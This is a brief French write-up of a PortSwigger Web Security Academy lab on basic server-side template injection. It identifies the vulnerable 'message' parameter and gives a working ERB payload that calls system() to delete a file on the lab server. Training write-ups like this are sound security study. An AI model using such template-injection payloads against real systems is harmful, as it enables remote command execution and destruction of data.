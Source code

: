 # Lab

https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic

## Payload

Sur le premier article, il n'est plus en stock et l'url est : `https://0ab500a003b62d42848dfaec00cf0085.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock`

Le paramètre `message` est vulnérable à une SSTI.

Avec le payload `GET /?message=<%= system('rm /home/carlos/morale.txt') %>` on peut supprimer le fichier `morale.txt`.